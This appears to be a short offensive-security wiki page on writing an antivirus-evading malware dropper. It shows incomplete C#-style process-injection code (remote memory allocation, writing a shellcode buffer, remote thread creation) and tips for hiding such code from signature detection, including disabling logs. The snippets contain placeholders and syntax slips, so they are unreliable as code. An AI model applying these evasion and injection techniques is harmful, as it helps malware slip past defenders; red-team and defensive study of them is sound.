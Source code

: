```yaml
---
authors: ShutdownRepo
---
```


# 🛠️ Dropper

> [!WARNING]
> This is a work-in-progress. It's indicated with the 🛠️ emoji in the page name or in the category name. Wanna help? Please reach out to me: [@_nwodtuhs](https://twitter.com/_nwodtuhs)

As for the loader, it is also possible to make a simple one, but the more complex it is, the more likely it is that the anti-virus will not see it

Knowing that an anti-virus compares the signature of our program and the signature of the functions with those of the malware, it is up to the attacker to use his imagination to disguise his program.

In the example below, the anti-virus will raise an alert:

```cpp
static void Main(string[] args)
{
 byte[] buf = new byte[xxx]{ 0x27, 0x3B, 0x38, 0x7D, 0xF4, 0x44 }
 IntPtr MyTests = OpenProcess(PROCESS_ALL_ACCESS, false, processId);
 IntPtr addr = VirtualAllocEx(MyTests, IntPtr.Zero, (uint)buf.Length, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
 WriteProcessMemory(MyTests,xxxxx);
 IntPtr hThread = CreateRemoteThread(MyTests, xxxxxx);
}
```

But, if a sub function is added to create a thread as follow:

```cpp
static void CRT()
{
 IntPtr hThread = CreateRemoteThread(MyTests, xxxxxx);
}

static void Main(string[] args)
{
 byte[] buf = new byte[xxx]{ 0x27, 0x3B, 0x38, 0x7D, 0xF4, 0x44 }
 IntPtr MyTests = OpenProcess(PROCESS_ALL_ACCESS, false, processId);
 IntPtr addr = VirtualAllocEx(MyTests, IntPtr.Zero, (uint)buf.Length, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
 WriteProcessMemory(MyTests,xxxxx);
 CRT()
}
```

By using the previous source code the anti-virus will have more difficulty to understand what is happening. The Russian doll technique can be a good trick to hide a malicious function.

> [!CAUTION]
> The fact of compiling several times will not give us a new signature, only the modification of the code has an impact

> [!CAUTION]
> Once the binary is ready to be executed, access to the internet should be cut in the test environment in order not to send the signature of the bypass to Microsoft or to the editor.

To optimize the probability to bypass the protections we will have to combine several techniques, for example encrypt the active load, de-activate Microsoft logs or choose a special way to inject the virus (cf [process injection](process-injection.md)). 
